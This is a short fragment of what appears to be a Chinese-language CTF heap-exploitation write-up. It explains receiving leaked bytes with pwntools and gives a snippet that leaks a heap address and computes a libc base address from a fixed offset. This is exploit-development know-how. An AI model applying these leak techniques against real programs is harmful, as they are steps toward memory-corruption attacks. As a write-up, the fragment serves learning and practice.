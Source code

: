 [![](assets/1701612371-f2fe7b45e6e9eceffbf0026c181f00cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151718-506e02b2-17df-1.png)

[![](assets/1701612371-6d7aa348536de7297a006ac43f4469a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151724-536ffbd2-17df-1.png)  
想接收这个数据，可以用  
1.p.recvuntil('\\n')\[:-1\].ljust(8,'\\x00')  
接收到 '\\n' , 但是不算上 '\\n'  
2.k&0x0000000000ffffff

```bash
ru('INDEX: 1\n')
ru('# CONTENT: ')
k=u64(r(8))
heap_addr=k&0x0000000000ffffff-0x1f0
#heap_addr=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
leak('heap_addr',heap_addr)

ru('INDEX: 3\n')
ru('# CONTENT: ')
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c4b78
leak('libc_base',libc_base)
```
